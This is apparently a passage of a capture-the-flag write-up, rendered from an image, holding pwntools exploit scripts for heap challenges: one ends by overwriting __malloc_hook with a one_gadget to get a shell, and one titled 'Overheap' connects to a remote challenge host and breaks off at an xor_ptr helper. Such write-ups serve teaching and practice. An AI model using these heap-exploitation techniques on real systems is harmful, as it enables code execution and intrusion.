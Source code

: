 ```python
success('libc_base: '+hex(libc_base))

malloc_hook=libc_base+libc.sym['__malloc_hook']
realloc=libc_base+libc.sym['realloc']
one_gadget=libc_base+0x4f432

edit(2,'b'*0x200+p64(0x1000)+p64(malloc_hook-0x8))

edit(3,p64(one_gadget)+p64(realloc+4))

#gdb.attach(r)

payload=''
payload+='passwd:Cr4at3 \n'
payload+='opcode:1\n\n'
r.recvuntil('>>> ')
r.send(payload)

r.interactive()

```

### Overheap

```python
from pwn import*
r=remote('8.134.51.71',25422)
#r=process('./main')
context.log_level='debug'

libc=ELF('./libc-2.34.so')

def new(size):
	r.recvuntil('>> ')
	r.sendline('1')
	r.recvuntil(':')
	r.sendline(str(size))

def show(idx):
	r.recvuntil('>> ')
	r.sendline('2')
	r.recvuntil(':')
	r.sendline(str(idx))

def edit(idx,content):
	r.recvuntil('>> ')
	r.sendline('3')
	r.recvuntil(':')
	r.sendline(str(idx))
	r.recvuntil(':')
	r.send(content)

def delete(idx):
	r.recvuntil('>> ')
	r.sendline('4')
	r.recvuntil(':')
	r.sendline(str(idx))

def exit():
	r.recvuntil('>> ')
	r.sendline('5')

def xor_ptr(ptr1,ptr2):
```